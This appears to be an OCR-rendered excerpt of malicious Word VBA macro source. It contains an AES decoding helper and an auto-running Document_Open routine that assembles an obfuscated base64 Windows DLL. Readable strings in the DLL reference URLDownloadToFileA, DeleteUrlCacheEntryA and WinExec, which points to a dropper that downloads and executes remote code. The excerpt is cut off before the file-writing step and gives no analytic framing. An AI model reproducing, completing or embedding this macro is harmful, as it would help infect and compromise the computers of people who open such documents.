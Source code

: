 ```
    sOut = StrConv(bOut, vbUnicode)
    If iPad Then sOut = Left$(sOut, Len(sOut) - iPad)
    AES = sOut

End Function

Public Function MyDecode(sString As String) As String
Dim TempStr As String
TempStr = sString
TempStr = Replace(TempStr, "uPCgt131", "==")
TempStr = Replace(TempStr, "Jc34DSga", "=")
MyDecode = AES(TempStr)
End Function

Private Sub Document_Open()
    On Error Resume Next
    Dim lgstr As String
    Dim FuEmdPath1 As String
    Dim FuEmdPath2 As String
    Dim cm, em
    Dim Stream
    Set cm = CreateObject("Microsoft.XMLDOM")
    Set em = cm.createElement("v")
    Set Stream = CreateObject("ADODB.Stream")
    lgstr = "T" & "V" & "qQA" & "AMAAAA"
    lgstr = lgstr & "EAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA2AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAADdY4TFmQLqlpkC6paZAuqWRP0hlpoC6paZAuuWnQLqlmtb45ebAuqWa1vql5gC6pZrW+iXmALqllJpY2iZAuqW"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAUEUAAEwBAwAxUuFdAAAAAAAAAADgAAIhCwEOAAACAAAABgAAAAAAAAAAAAAAEAAAACAAAAAAABAAEAAAAAIAAAYAAAAAAAAABgAAAAAAAAAAQAAAAAQAAAAAAAACAEAFAAAQAAAQAAAAABAAABAAAAAAAAAQAAAAsCAAAE0AAAC0IQAAKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAwAAAgAAAA"
    lgstr = lgstr & "cCAAADgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAABQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAudGV4dAAAAIAAAAAAEAAAAAIAAAAEAAAAAAAAAAAAAAAAAAAgAABgLnJkYXRhAAA4AgAAACAAAAAEAAAABgAAAAAAAAAAAAAAAAAAQAAAQC5yZWxvYwAAIAAAAAAwAAAAAgAAAAoAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAEAAAEIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFWL7FZoICAAEP8VDCAAEIvwhfZ0HGgsIAAQVv8VACAAEIXAdAX/dRD/0Fb/FQQgABBoRCAAEP8VDCAAEIvwhfZ0JWhQIAAQVv8VACAAEIXAdA5qAGoA/3UU/3UQagD/0Fb/FQQgABBeXcPMzMzMzMxVi+xqAP91FP8VCCAAEF3D"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "ACIAABIiAAAgIgAA8CEAAAAAAAAAAAAAAAAAAAAAAABXaW5pbmV0LmRsbABEZWxldGVVcmxDYWNoZUVudHJ5QQAAAABVcmxtb24uZGxsAABVUkxEb3dubG9hZFRvRmlsZUEAAAAAAAAAAAAAAAAAAAAAAAAxUuFdAAAAAA0AAAC0AAAAACEAAAAHAAAAAAAAMVLhXQAAAAAOAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMVLhXQAAAADsIAAA"
    lgstr = lgstr & "AQAAAAIAAAACAAAA2CAAAOAgAADoIAAAcBAAAAAQAAD1IAAA+SAAAAAAAQB1dGZjLmRsbABSQ1AAUkNUAAAAAEdDVEwAEAAAgAAAAC50ZXh0JG1uAAAAAAAgAAAUAAAALmlkYXRhJDUAAAAAICAAAIgAAAAucmRhdGEAALAgAABNAAAALmVkYXRhAAAAIQAAtAAAAC5yZGF0YSR6enpkYmcAAAC0IQAAFAAAAC5pZGF0YSQyAAAAAMghAAAUAAAA"
    lgstr = lgstr & "LmlkYXRhJDMAAAAA3CEAABQAAAAuaWRhdGEkNAAAAADwIQAASAAAAC5pZGF0YSQ2AAAAANwhAAAAAAAAAAAAACoiAAAAIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAIgAAEiIAACAiAADwIQAAAAAAAKUDTG9hZExpYnJhcnlBAACdAkdldFByb2NBZGRyZXNzAACeAUZyZWVMaWJyYXJ5AM4FV2luRXhlYwBLRVJORUwzMi5kbGwAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```
